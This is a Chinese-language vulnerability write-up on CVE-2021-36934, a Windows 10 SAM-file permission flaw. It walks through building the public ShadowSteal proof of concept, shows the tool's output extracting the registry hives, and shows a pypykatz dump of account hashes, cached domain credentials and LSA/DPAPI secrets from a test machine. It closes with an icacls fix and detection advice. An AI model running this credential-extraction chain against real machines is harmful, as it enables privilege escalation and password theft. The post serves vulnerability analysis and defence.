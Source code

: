 ```yaml
---
title: "CVE-2021-36934 Windows 10 本地提权"
date: 2021-07-23
type: posts
draft: false
summary: "多个系统文件的ACL配置过于宽松，包括 SAM 文件，导致在某些情况下内建普通用户组可以操作SAM达到本地提权的效果。"
categories:
  - Windows-Security
tags:
  - windows
  - vuln
  - lpe
  - cve
---
```


## 一、漏洞描述

多个系统文件的ACL配置过于宽松，包括 SAM 文件，导致在某些情况下内建普通用户组可以操作SAM达到本地提权的效果。

windows >= 1809 (20H2测试失败，1809成功)

## 二、简单分析

通过对比了一下20H2、1809版本的 SAM 文件的权限：

20H2:

![20h2_sam_acl](20h2_sam_acl.png)

1809:

![1809](1809_sam_acl.png)

受影响的系统的 SAM 文件对于 Users 组成员是有读取(R)、执行(X)权限的。

当然，如果直接去读取 sam，可能会发生“另一个进程正在占用该文件”的情况：

![sam_access_denied](sam_access_denied.png)

这种情况造成的文件打不开，可以使用 VSS（卷影复制）功能打破这种僵局，卷影创建需要管理员权限，但是如果开启了以下功能之一都有可能被该漏洞利用来读取SAM：

![windows_vss_features](windows_vss_features.png)

公开POC都是基于系统还原功能。

## 三、利用条件

版本符合漏洞影响范围（官方CVE信息里是>=1809，但是20H2我测试失败）；
开启 系统保护 功能，并已经存在一个系统还原点。（我测试的两个版本，这个功能默认不开启）；

## 四、测试机

windows 1809/20H2，1809上测试成功

需要提前目标机器开启 系统保护：

![enable_system_protection](enable_system_protection.png)

然后手动创建一个还原点。

## 五、利用过程

POC：[https://github.com/HuskyHacks/ShadowSteal](https://github.com/HuskyHacks/ShadowSteal)

```bash
sudo apt-get install nim mingw-w64
nimble install zippy argparse
git clone https://github.com/HuskyHacks/ShadowSteal.git && cd ShadowSteal
make && cd bin/
```

将编译好的exe放到目标机器上执行 .\ShadowSteal -t 将 SAM 文件导出。

```cmd
C:\Users\demouser\Desktop>.\ShadowSteal.exe -t
[*] Triage mode enabled.
[*] Executing ShadowSteal...
[*] Time: 202107230151
[*] Searching for shadow volumes on this host...
[*] Checking HarddiskVolumeShadowCopy10
[-] No :(
[*] Checking HarddiskVolumeShadowCopy9
[-] Nope
[*] Checking HarddiskVolumeShadowCopy8
[-] Not there
[*] Checking HarddiskVolumeShadowCopy7
[-] Not there
[*] Checking HarddiskVolumeShadowCopy6
[-] Nope
[*] Checking HarddiskVolumeShadowCopy5
[-] No
[*] Checking HarddiskVolumeShadowCopy4
[-] No
[*] Checking HarddiskVolumeShadowCopy3
[-] No :(
[*] Checking HarddiskVolumeShadowCopy2
[-] Nein
[*] Checking HarddiskVolumeShadowCopy1
[+] Hit!
[+] HarddiskVolumeShadowCopy1 identified.
[+] Highest Shadow Volume located: HarddiskVolumeShadowCopy1
[*] This likely has the most up to date credential information. Exploiting!
[+] Exfiltrating the contents of the config directory...
[+] Hives extracted!
[*] Compressing... 202107230151_ShadowSteal.zip
[+++] SUCCESS!
[+++] SAM, SECURITY, and SYSTEM Hives have been extracted to 202107230151_ShadowSteal.zip
 
[*] Done! Happy hacking!
 
C:\Users\demouser\Desktop>
```

将生成的压缩包里的三个文件用mimikatz解出hash：

```bash
λ git main* → pypykatz registry SYSTEM_2021-07-23T13:30:06+08:00 --sam SAM_2021-07-23T13:30:06+08:00 --security SECURITY_2021-07-23T13:30:06+08:00
WARNING:pypykatz:SOFTWARE hive path not supplied! Parsing SOFTWARE will not work
============== SYSTEM hive secrets ==============
CurrentControlSet: ControlSet001
Boot Key: d48a183c059ae1cb952006b921c26806
============== SAM hive secrets ==============
HBoot Key: 706fe00b6326570dfe0482e07b9cb23410101010101010101010101010101010
Administrator:500:aad3b435b51404eaaad2b435b51408ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:dacba5694517e603771739b2ad409695:::
demouser:1001:aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4:::
============== SECURITY hive secrets ==============
Iteration count: 10240
Secrets structure format : VISTA
LSA Key: 40721acd84c4b68c5317bc504597b3414e09ddce01377180a8829d9a9bc9a779
NK$LM Key: 40000000000000000000000000000000b4a04dd3477c10bc2fe91cd6de27b109c640d9449e5402e1554e694a56b498bf0190d8adf6c270fbca57218ddb301efa11099e667a2c7bd27220c19f262c00431b6b150cb6f29988c7bede97575d9866
TEST.COM/demo:$DCC2$10240#demo#d7e88c4995b9d0607bfc7aeefa6fb6d5
TEST.COM/Administrator:$DCC2$10240#Administrator#b2071403e7735baeedd89100d54ebb5d
=== LSA Machine account password ===
History: False
NT: 5d7694a018e7f717177d982f4f81e6f8
Password(hex): 6a00370049004100750064002f0042002e004900260050004500730044006a007200420033006e0073003600350027006f004600410042003e005d003f004c004d00250079007a0053006f00670052005e002600540072004e0054006c006600680024007200730077006d00790068007a0035002d003e004800710067004e0044005d005e004f0077003e006f006c006000230056003300600051004f002c002b00500046006f0068002e00230032002a006c0065003900370046005c006d002b003e006e0075004b006f0034005f003d0049002b005e0058006b003b005f002400610028006400490054003a005900
Kerberos password(hex): 6a37494175642f422e4926504573446a7242336e733635276f4641423e5d3f4c4d25797a536f67525e2654724e546c6668247273776d79687a352d3e4871674e445d5e4f773e6f6c6023563360514f2c2b50466f682e23322a6c653937465c6d2b3e6e754b6f345f3d492b5e586b3b5f2461286449543a59
=== LSA Machine account password ===
History: True
NT: 5d7694a018e7f717177d982f4f81e6f8
Password(hex): 6a00370049004100750064002f0042002e004900260050004500730044006a007200420033006e0073003600350027006f004600410042003e005d003f004c004d00250079007a0053006f00670052005e002600540072004e0054006c006600680024007200730077006d00790068007a0035002d003e004800710067004e0044005d005e004f0077003e006f006c006000230056003300600051004f002c002b00500046006f0068002e00230032002a006c0065003900370046005c006d002b003e006e0075004b006f0034005f003d0049002b005e0058006b003b005f002400610028006400490054003a005900
Kerberos password(hex): 6a37494175642f422e4926504573446a7242336e733635276f4641423e5d3f4c4d25797a536f67525e2654724e546c6668247273776d79687a352d3e4871674e445d5e4f773e6f6c6023563360514f2c2b50466f682e23322a6c653937465c6d2b3e6e754b6f345f3d492b5e586b3b5f2461286449543a59
=== LSA DPAPI secret ===
History: False
Machine key (hex): 93545f81515ff9fdab411086a76a036ef01c50c8
User key(hex): 8c64aaf5e7411b3ab01a795f32bc0daa16c0cd92
=== LSA DPAPI secret ===
History: True
Machine key (hex): e32bd15e3ee27c47721a2760b87998c6f6ba69fd
User key(hex): 5402ec8e185cc7c35d117e6653f8cbae6b7d9878
=== LSASecret NL$KM ===
 
History: False
Secret:
00000000:  b4 a0 4d d3 47 7c 10 bc  2f e9 1c d6 de 27 b1 09   |..M.G|../....'..|
00000010:  c6 40 d9 44 9e 54 02 e1  55 4e 69 4a 56 b4 98 bf   |.@.D.T..UNiJV...|
00000020:  01 90 d8 ad f6 c2 70 fb  ca 57 21 8d db 30 1e fa   |......p..W!..0..|
00000030:  11 09 9e 66 7a 2c 7b d2  72 20 c1 9f 26 2c 00 43   |...fz,{.r ..&,.C|
=== LSASecret NL$KM ===
 
History: True
Secret:
00000000:  b4 a0 4d d3 47 7c 10 bc  2f e9 1c d6 de 27 b1 09   |..M.G|../....'..|
00000010:  c6 40 d9 44 9e 54 02 e1  55 4e 69 4a 56 b4 98 bf   |.@.D.T..UNiJV...|
00000020:  01 90 d8 ad f6 c2 70 fb  ca 57 21 8d db 30 1e fa   |......p..W!..0..|
00000030:  11 09 9e 66 7a 2c 7b d2  72 20 c1 9f 26 2c 00 43   |...fz,{.r ..&,.C|
```

demouser 的 nthash 为 32ed87bdb5fdc5e9cba88547376818d4，通过在线破解可知密码为 123456:

![demouser_hash_crack](demouser_hash_crack.png)

## 六、漏洞修复

参考：[https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36934](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36934)

还没有补丁，可以通过手动修改 config 目录中所有文件的 ACL 进行修复：

```cmd
icacls %windir%\system32\config\*.* /inheritance:e
```

然后，将已经存在的系统还原点删除重新创建。（或者直接关闭系统保护功能）。

## 七、漏洞检测

根据 SAM 文件 ACL 判断 Users 用户组是否有权限读取。

## 八、参考链接

- [https://github.com/HuskyHacks/ShadowSteal](https://github.com/HuskyHacks/ShadowSteal)
- [https://twitter.com/jonasLyk/status/1417205166172950531](https://twitter.com/jonasLyk/status/1417205166172950531)
- [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36934](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36934)
- [https://docs.microsoft.com/zh-cn/windows-server/storage/file-server/volume-shadow-copy-service](https://docs.microsoft.com/zh-cn/windows-server/storage/file-server/volume-shadow-copy-service)
